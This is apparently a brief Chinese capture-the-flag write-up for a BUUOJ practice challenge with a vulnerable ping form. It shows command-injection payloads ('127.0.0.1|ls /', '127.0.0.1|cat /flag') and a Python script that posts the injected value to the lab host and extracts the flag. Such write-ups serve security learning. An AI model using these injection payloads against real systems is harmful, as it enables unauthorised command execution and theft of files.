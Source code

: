 # 分析

来自[[ACTF2020 新生赛]Exec](https://buuoj.cn/challenges#[ACTF2020%20%E6%96%B0%E7%94%9F%E8%B5%9B]Exec)

是一个ping功能，试试有没有命令执行，payload=`1270.0.0.1|ls /`

![image-20240625195616946](image/image-20240625195616946.png)

payload=`127.0.0.1|cat /flag`

![image-20240625195727333](image/image-20240625195727333.png)

# exp

```python
import requests
import re

url = "http://af0baab7-eaf0-4993-9df1-785e785d2f35.node5.buuoj.cn:81/"
data={
  'target':'127.0.0.1|cat /flag'
}
res = requests.post(url, data=data)

if res.status_code == 200:
    res_text = res.text
    # 打印响应内容（可选）
    #print("Response:", res_text)
    # 使用正则表达式查找 flag
    flag_pattern = "flag\{.*?\}"
    flag_match = re.search(flag_pattern, res_text)
    if flag_match:
        flag = flag_match.group(0)
        print(f"flag is -->> {flag}")
    else:
        print("flag not found.")
else:
    print("Request failed.")
```

